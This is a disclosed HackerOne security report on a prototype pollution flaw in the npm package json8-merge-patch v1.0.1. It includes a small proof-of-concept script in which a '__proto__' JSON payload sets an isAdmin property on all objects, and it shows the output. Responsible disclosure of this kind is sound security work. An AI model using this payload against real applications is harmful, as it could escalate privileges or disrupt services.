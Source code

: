 # [json8-merge-patch] Prototype Pollution

## Report Details
- **Report ID**: 980649
- **URL**: https://hackerone.com/reports/980649
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-09-12T11:53:16.089Z
- **Disclosed**: 2020-10-18T08:10:20.699Z

## Reporter
- **Username**: gkmr
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `Prototype Pollution` vulnerability in `json8-merge-patch`
The `apply` function fails to restrict access to prototypes of objects, allowing for modification of prototype behavior.

# Module

**module name:** `json8-merge-patch`
**version:** `v1.0.1`
**npm page:** `https://www.npmjs.com/package/json8-merge-patch`

## Module Description

JSON Merge Patch RFC 7396 toolkit for JavaScript.

## Module Stats

Weekly downloads: `517`

# Vulnerability

## Vulnerability Description

The `apply` function fails to restrict access to prototypes of objects, allowing for modification of prototype behavior, which may allow obtaining sensitive information/DoS/RCE.

## Steps To Reproduce:

1. Install `json8-merge-patch` module

     > `npm i json8-merge-patch`
2. create a file `poc.js` with content :
```
let json8mergepatch = require("json8-merge-patch");
var obj = {}
console.log("Before : " + obj.isAdmin);
json8mergepatch.apply(obj, JSON.parse('{ "__proto__": { "isAdmin": true }}'));
console.log("After : " + obj.isAdmin);
```
3. Execute using: `node poc.js`

##Output:
Before: undefined
After: true

## Supporting Material/References:

- OPERATING SYSTEM VERSION: Windows 10
- NODEJS VERSION: v12.18.3
- NPM VERSION: 6.14.6

# Wrap up

- I contacted the maintainer to let them know: [Y] 
- I opened an issue in the related repository: [Y] 

Ref: https://github.com/sonnyp/JSON8/issues/113

## Impact

Can result in sensitive information disclosure/DoS/RCE. (depends on implementation)

## Attachments
No attachments

